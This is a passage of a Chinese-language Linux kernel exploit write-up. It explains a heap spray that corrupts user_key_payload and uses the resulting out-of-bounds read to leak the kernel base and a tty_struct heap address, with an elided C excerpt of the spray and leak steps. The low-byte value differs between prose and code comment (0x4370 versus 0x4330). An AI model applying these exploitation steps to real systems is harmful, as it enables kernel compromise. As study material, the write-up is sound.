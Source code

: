 
**篡改`user_key_payload->datalen`**：现在需要篡改 `user_key_payload`，构造 OOB read。直接喷射 `seq_operations` 对象，`seq_operations->single_next` 的低2字节 (0x4370，函数地址`ffffffff812d4370 t single_next`) 可能会覆写之前释放的 `user_key_payload->datalen`。非常巧妙！

```c
    [...]

    for (int i = 2048; i < 2048 + 128; i++)
        alloc_seq_ops(i); 			// [1] 喷射 seq_operations (kmalloc-32), 其中 seq_operations->single_next 的低2字节 (0x4330) 可能会覆写之前释放的 user_key_payload->len

    if (leak_kernel_pointer() < 0) 	// [2] proc_single_show() 函数指针会覆写到 user_key_payload->data 处。遍历所有 user_key_payload 直到泄露 proc_single_show 地址 —— 内核基址
    {
        puts("[X] Kernel pointer leak failed, try again...");
        exit(1);
    }

    free_all_keys(true); 			// [3] 释放所有 kmalloc-32, 图3A 中橘黄色的块, 除了被覆写的 user_key_payload

    for (int i = 0; i < 72; i++)
        alloc_tty(i); 				// [4] 打开很多 ptmx, 就会用 tty_file_private 替换刚才释放的 kmalloc-32, 见图3B中蓝色的块

    if (leak_heap_pointer(corrupted_key) < 0) // [5] 利用 OOB read 泄露 tty_struct 地址
    {
        puts("[X] Heap pointer leak failed, try again...");
        exit(1);
    }

    [...]
```

**内核基址**：`user_key_payload` 被任意释放后，堆喷`seq_operations`对象来覆写 `user_key_payload`，其中`seq_operations->show` 也即[proc_single_show()](https://elixir.bootlin.com/linux/v5.10.127/source/fs/proc/base.c#L763) 函数指针，恰好覆盖了 `user_key_payload->data` 前8字节。如下图3A所示，黄色表示 `seq_operations` 结构，其中一个 `seq_operations` 覆写了 `user_key_payload`，直接读取即可泄露内核基址。

**堆地址**：打开 [ptmx](https://linux.die.net/man/4/ptmx) 时，会分配 kmalloc-1024 [tty_struct](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/tty.h#L285) 和 kmalloc-32 [tty_file_private](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/tty.h#L347)，其中 `tty_file_private->tty` 指向其对应的 `tty_struct` 结构地址，所以我们利用 `user_key_payload` 的越界读，就能泄露某个 kmalloc-1024。
